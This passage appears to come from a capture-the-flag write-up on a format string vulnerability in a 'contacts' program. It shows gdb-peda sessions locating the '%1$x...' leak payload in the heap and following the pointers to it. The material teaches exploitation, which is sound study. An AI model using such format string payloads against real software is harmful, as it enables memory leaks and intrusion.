 So we can see that the format string exploit did work. Let's take a look at gdb to see exactly what we got:

```
gdb-peda$ x/x 0x8da4010
0x8da4010:	0x33323130
gdb-peda$ x/s 0x8da4010
0x8da4010:	"0123456789"
```

So we can see that the first dword over contains a pointer to the phone number, which makes sense since it is right after the description pointer. Now let's look at the heap memory.
```
gdb-peda$ find %1
Searching for '%1' in: None ranges
Found 14 results, display max 14 items:
[heap] : 0x8da4020 ("%1$x.%2$x.%3$x.%4$x.%5$x.%6$x.%7$x.%8$x.%9$x\n")
  libc : 0xf75f52b8 (<__libc_start_main+312>:	and    eax,0xbcebc031)
  libc : 0xf7607a1c (<__open_catalog+188>:	and    eax,0x5b8c931)
  libc : 0xf761252e (and    eax,0x1f38c031)
  libc : 0xf761559e (and    eax,0x1f38c031)
  libc : 0xf765310b (and    eax,0xcf81c731)
  libc : 0xf76578b0 (<strchrnul+272>:	and    eax,0xcf81cf31)
  libc : 0xf7659f2a (<strxfrm_l+1978>:	and    eax,0xbebd231)
  libc : 0xf765aafa (<strxfrm_l+5002>:	and    eax,0xbebd231)
  libc : 0xf7722e3a (and    eax,0xfa83d631)
  libc : 0xf773db12 ("%10u\n")
  libc : 0xf773db2b ("%10u\n")
  libc : 0xf773db59 ("%10u\n")
  libc : 0xf773db72 ("%10lu\n")
gdb-peda$ find 0x8da4020
Searching for '0x8da4020' in: None ranges
Found 5 results, display max 5 items:
contacts_54f3188f64e548565bc1b87d7aa07427 : 0x804b0a0 --> 0x8da4020 ("%1$x.%2$x.%3$x.%4$x.%5$x.%6$x.%7$x.%8$x.%9$x\n")
                                  [stack] : 0xffe971bc --> 0x8da4020 ("%1$x.%2$x.%3$x.%4$x.%5$x.%6$x.%7$x.%8$x.%9$x\n")
                                  [stack] : 0xffe97640 --> 0x8da4020 ("%1$x.%2$x.%3$x.%4$x.%5$x.%6$x.%7$x.%8$x.%9$x\n")
                                  [stack] : 0xffe9a124 --> 0x8da4020 ("%1$x.%2$x.%3$x.%4$x.%5$x.%6$x.%7$x.%8$x.%9$x\n")
                                  [stack] : 0xffe9a130 --> 0x8da4020 ("%1$x.%2$x.%3$x.%4$x.%5$x.%6$x.%7$x.%8$x.%9$x\n")
gdb-peda$ x/x 0x804b0a0
0x804b0a0:	0x08da4020
gdb-peda$ x/20w 0x804b0a0
0x804b0a0:	0x08da4020	0x08da4010	0x00797567	0x00000000
0x804b0b0:	0x00000000	0x00000000	0x00000000	0x00000000
0x804b0c0:	0x00000000	0x00000000	0x00000000	0x00000000
0x804b0d0:	0x00000000	0x00000000	0x00000000	0x00000000
0x804b0e0:	0x00000000	0x00000000	0x00000032	0x00000001
```
